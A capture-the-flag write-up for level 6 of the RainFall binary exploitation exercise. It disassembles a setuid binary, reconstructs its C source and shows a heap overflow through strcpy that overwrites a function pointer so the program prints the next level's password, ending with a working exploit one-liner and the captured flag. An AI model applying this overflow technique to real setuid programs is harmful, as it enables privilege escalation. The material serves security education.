

# Level 6

## Setup
We find a binary file at the root of the user **`level6`** named *`./level6`*.

To analyze the binary file we copy it to our own environment with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4243 level6@localhost:/home/user/level6/level6 .
```

### Radare2

I am running `r2` inside docker.
```bash
docker run -it -v "$bin_file_path":/mnt/binary radare/radare2 bash -c "r2 /mnt/binary"
```

## Binary Analysis

On the `r2` prompt we need to run a couple of commands to analyze the `main` function.
```bash
[0x08048de8]> aaa # Automatically analyze the binary
...
[0x08048ec0]> v # Enter visual mode
```

<p align="center">
   
</p>

### Code with addresses
```assembly
(gdb) set disassembly-flavor intel 
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n                  # ---------------
0x08048468  m                  # ---------------
0x0804847c  main               # ---------------
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
(gdb) disassemble n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   ebp
   0x08048455 <+1>:	mov    ebp,esp
   0x08048457 <+3>:	sub    esp,0x18
   0x0804845a <+6>:	mov    DWORD PTR [esp],0x80485b0
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave  
   0x08048467 <+19>:	ret    
End of assembler dump.
(gdb) disassemble m
Dump of assembler code for function m:
   0x08048468 <+0>:	push   ebp
   0x08048469 <+1>:	mov    ebp,esp
   0x0804846b <+3>:	sub    esp,0x18
   0x0804846e <+6>:	mov    DWORD PTR [esp],0x80485d1
   0x08048475 <+13>:	call   0x8048360 <puts@plt>
   0x0804847a <+18>:	leave  
   0x0804847b <+19>:	ret    
End of assembler dump.
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   ebp
   0x0804847d <+1>:	mov    ebp,esp
   0x0804847f <+3>:	and    esp,0xfffffff0
   0x08048482 <+6>:	sub    esp,0x20
   0x08048485 <+9>:	mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:	mov    edx,0x8048468
   0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:	mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:	add    eax,0x4
   0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:	mov    edx,eax
   0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:	call   eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
End of assembler dump.
```

### Source

The equivalent program in C would be:
```C
#include <stdio.h>
#include <stdlib.h>

int n()
{
  return (system("/bin/cat /home/user/level7/.pass"));
}

int m()
{
  return (puts("Nope"));
}

int main(int argc, const char **argv, const char **envp)
{
  int (**v4)(void); // [esp+18h] [ebp-8h]
  int v5; // [esp+1Ch] [ebp-4h]

  v5 = malloc(64);
  v4 = (int (**)(void))malloc(4);
  *v4 = m;
  strcpy(v5, argv[1]);
  return ((*v4)());
}
```

As we can see, the program *segfaults* when not given an argument (`argv[1]`), and print *"Nope"* to an arbitrary argument.

### Permissions
As we can see in the permissions of the executable file, the binary `./level6` is executed with the privileges of the user **level6**, the owner of the file.
```bash
level6@RainFall:~$ ls -l level6 
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```

## Reverse Engineer

The `argv[1]` we send is not limited and is copied into the `v5` variable of size *64* with the `strcpy` function which is suceptible to *buffer overflow*.

```
(gdb) set disassembly-flavor  intel 
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   ebp
   0x0804847d <+1>:	mov    ebp,esp
   0x0804847f <+3>:	and    esp,0xfffffff0
   0x08048482 <+6>:	sub    esp,0x20
   0x08048485 <+9>:	mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:	mov    edx,0x8048468
   0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:	mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:	add    eax,0x4
   0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:	mov    edx,eax
   0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:	call   eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
End of assembler dump.
(gdb) break *0x080484ca
Breakpoint 1 at 0x80484ca
(gdb) run aaaa
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level6/level6 aaaa

Breakpoint 1, 0x080484ca in main ()
(gdb) x/wx $eax
0x804a008:	0x61616161
(gdb) x/20wx $eax
0x804a008:	0x61616161	0x00000000	0x00000000	0x00000000
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000011	0x08048468	0x00000000

# 0x08048468 is the address of the function m();
```

If we put a *breakpoint* after the `strcpy` call, we can see that the `EAX` register has the copied string argument, and that 72 bytes after, we find the address of the function `m()` which is going to be executed (`EIP` register).

We want to replace its value with the address of the `n()` function: `0x08048454`:


### Solution

So as we did with the previous levels, we construct our payload in the same way.

```bash
0x08048454 -> \x54\x84\x04\x08

./level6 $(printf '%-72s\x54\x84\x04\x08' | tr ' ' '.')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

```